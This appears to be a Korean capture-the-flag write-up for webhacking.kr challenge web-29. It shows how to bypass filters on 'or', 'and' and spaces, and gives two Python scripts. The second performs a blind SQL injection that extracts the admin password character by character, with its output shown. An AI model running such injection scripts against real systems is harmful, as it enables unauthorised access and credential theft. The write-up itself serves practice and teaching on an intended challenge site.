


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

or 는 필터링 되는 것 같고 || 를 이용하면 no 에서 SQLi가 터짐을 알 수 있다.

```python
import urllib.request

CHALLENGE   = 'https://webhacking.kr/challenge/web-29/'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

no          = urllib.parse.quote('2||IF(1=1,1,2)')
url         = CHALLENGE + '?no='+no+'&id=guest&pw=guest'
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
result      = response.read().decode()
print(result)

[Output]
... 생략 ...
<br><br><b>Success - guest</b><meta http-equiv=refresh content=2;url=./>
```

특이하게 no에 0||LENGTH(pw)=10 를 입력하면 Success나 Fail이나 no hack같은게 아닌 admin password라는 창이 뜬다.


and와 띄어쓰기가 필터링 되어서 &&와 괄호를 이용하여 우회해서 패스워드를 알아내자.

```python
import urllib.request
import string

CHALLENGE   = 'https://webhacking.kr/challenge/web-29/'
SESSION_ID  = 'kbkqoa8a3tuso86knlnkpog5ai'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}

pw = ''
for i in range(1, 11):
    for c in string.printable.strip():
        no          = urllib.parse.quote('2||(SUBSTR(pw,{},1)=0x{})&&(id=0x{})'.format(i, c.encode().hex(), 'admin'.encode().hex()))
        url         = CHALLENGE + '?no='+no+'&id=guest&pw=guest'
        request     = urllib.request.Request(url=url, headers=headers)
        response    = urllib.request.urlopen(request)
        result      = response.read().decode()
        
        if 'admin password' in result:
            pw += c
            break;
print('password=' + pw)

[Output]
password=luck_admin
```

알아낸 패스워드를 입력하면 점수를 획득할 수 있다.

